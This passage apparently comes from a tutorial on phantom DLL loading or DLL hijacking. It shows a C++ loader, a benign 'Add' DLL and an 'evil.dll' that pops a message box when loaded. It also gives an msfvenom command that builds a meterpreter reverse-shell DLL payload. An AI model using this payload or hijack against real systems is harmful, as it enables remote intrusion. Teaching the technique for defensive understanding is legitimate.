 ```cpp
        if (Add != NULL)
        {
            std::cout << "Result: " << Add(3, 4) << std::endl;
        }
        FreeLibrary(hDLL);
    }
    else
    {
        std::cerr << "Failed to load DLL." << std::endl;
    }
    if (hPhantomDLL != NULL)
    {
        std::cout << "Phantom DLL loaded successfully." << std::endl;
        FreeLibrary(hPhantomDLL);
    }
    else
    {
        std::cerr << "Failed to load Phantom DLL." << std::endl;
    }
    return 0;
}

```

For the `example.dll` library, we will create a simple function that adds two numbers:

```cpp
#include <windows.h>

#define DLL_EXPORT __declspec(dllexport)

// Function to add two numbers
extern "C" DLL_EXPORT int Add(int a, int b)
{
    return a + b;
}
```

In this example, our `evil.dll` will show a simple message box when loaded. We could create a more complex payload with the following command, but for the sake of simplicity, we will stick to this.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1234 LHOTS=eth0 -f dll > evil.dll
```

```cpp
#include <windows.h>

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Evil DLL loaded!", "Evil DLL", MB_OK | MB_ICONINFORMATION);
        break;
    }
    return TRUE;
}
```

---